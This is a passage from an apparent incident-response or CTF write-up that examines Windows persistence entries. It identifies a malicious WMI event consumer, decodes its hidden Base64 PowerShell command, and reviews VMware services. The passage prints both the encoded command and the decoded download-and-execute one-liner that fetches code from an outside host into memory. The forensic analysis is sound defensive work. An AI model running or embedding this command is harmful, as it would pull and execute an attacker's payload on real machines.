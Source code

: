 2. **Empty Value Entries**: We filtered out entries lacking values to focus on potentially relevant data.

   ![Filter for Empty Values](/images/writeup2/4.png)


After filtering, we narrowed down our focus to a more manageable set of entries categorized for further investigation.

### 2. Detailed Investigation

#### 2.1 WMI Event Consumers

**Entry Found**: `SystemPerformanceMonitor` running a suspicious command in PowerShell:
```powershell
powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA
```

**Decoding**: The command appears to be Base64 encoded. We decoded this with the help of CyberChef:
```powershell
IEX (New-Object System.Net.WebClient).downloadstring('http://squirreldirectory.com/a')
```
- **Analysis**: This indicates a fileless attack, where the attacker downloads a file directly into memory using PowerShell.

#### 2.2 Services

- **VMware Services**:

![VMware Services](/images/writeup2/6.png)
  + Three entries were observed related to VMware; based on hash and document verification, these were considered legitimate.
   

#### 2.3 Drivers
